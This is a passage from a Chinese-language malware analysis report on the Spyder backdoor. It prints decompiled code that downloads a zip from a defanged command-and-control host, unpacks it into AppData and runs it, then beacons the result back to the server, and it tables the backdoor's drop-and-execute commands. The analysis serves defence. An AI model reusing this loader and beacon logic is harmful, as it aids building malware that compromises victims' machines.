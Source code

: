 ### (3）下载压缩包并解压执行  

下载URL为"hxxp://plainboardssixty.com/drive/[name].zip"的压缩包，以pass字段保存的密码解压。下载的压缩包和解压出的文件均保存在"C:\Users\[user_name]\AppData\Local"目录中，接着运行解压得到的文件。  

173 wsprintfW(v61,L"%hs://%hs%hs/%hs.zip",&g_str_http, g_str_server, g_str_url,\*((_DwoRD \*)v53 + 4));   
174 lstrcpyW(v62, g_folder_LocalAppdata);   
175 lstrcatW(v62, L"\\");   
176 lstrcatW(v62, a2);   
177 v53 $=$ (CHAR \*)MwDownloadData(v61,(size_t \*)&v52);   
178 v27 $=$ CreateFileW(v62,0x10000000u,1u,0,2u，0x80u，0);   
179 WriteFile(v27,v53,(DWORD)v52,&v57[1],θ);   
180 CloseHandle(v27);   
181 v28 $=$ lstrlenW(v62);  

### (4）通知C2操作结束  

向C2发送"hwid $=$ %s&deploy $\mathtt{\Gamma}=0^{\"}$ ，表示已运行下载的载荷，删除下载的压缩包，休眠2s后进入下一次循环。  

555 wsprintfA(v80, v84, g_encode_machine_guid);// hwid=%s&deploy=0   
556 memset(v129,0, sizeof(v129));   
557 v86 $=$ lstrlenA(v80);   
558 MwPostRequest(v80, v86, (int)v129, 0x1000u);   
559 GlobalFree(v80);   
560 DeleteFileW(FileName);   
561 GlobalFree(v110);   
562   
563 Sleep(2000u);   
564 v33 $\Bumpeq$ lstrlenA;   
565   
566  

后门指令详细说明如下。  

<html><body><table><tr><td>指令</td><td>说明</td></tr><tr><td>.I</td><td>下载压缩包的本地保存名称为slr.zip，压缩包中1.bin文件解压保 存为slb.dll，通过rundl132运行该DLL的导出函数CreateInterfaac e。</td></tr><tr><td>"2"</td><td>下载压缩包的本地保存名称为slr_2.zip，压缩包中2.bin文件解 压保存为sihost.exe，运行该EXE文件。</td></tr><tr><td>"3"</td><td>下载压缩包的本地保存名称为slr_3.zip，压缩包中3.bin文件解 压保存为secd.exe，运行该EXE文件。</td></tr><tr><td>其他</td><td>无操作</td></tr></table></body></html>  

6月另外两个样本与上述样本几乎一样，不同之处在于：  

1．配置数据中的互斥量、profile和email的名称不同;  
2. 循环开始时从hxxp://plainboardssixty.com/drive/chilli.php下载文件的保存名称为gameinput.exe;  
3.指令"2"和"3"释放文件保存名称分别为"Microsoft.Web.Pagelnspector.exe"和"DocumentFormat.OpenXml.exe"， 保存在"AppData\Local"的"Microsoft.Web"子目录下。  

# Spyder原始版  

4月的原始版样本与6月的新版样本之间的差异不大，主要不同之处在以下几个方面：  

（1）配置用的关键字符串在初始化函数中异或解密，而不是像新版样本从资源区解密得到；  

![](https://cdn-mineru.openxlab.org.cn/extract/7cb3dbb3-f205-48ab-95fe-9170083a84dc/a88ae9aad4b2ed420d69768db0cabf1583f4cd05bb3ba948f4a2ead7307c88a2.jpg)  
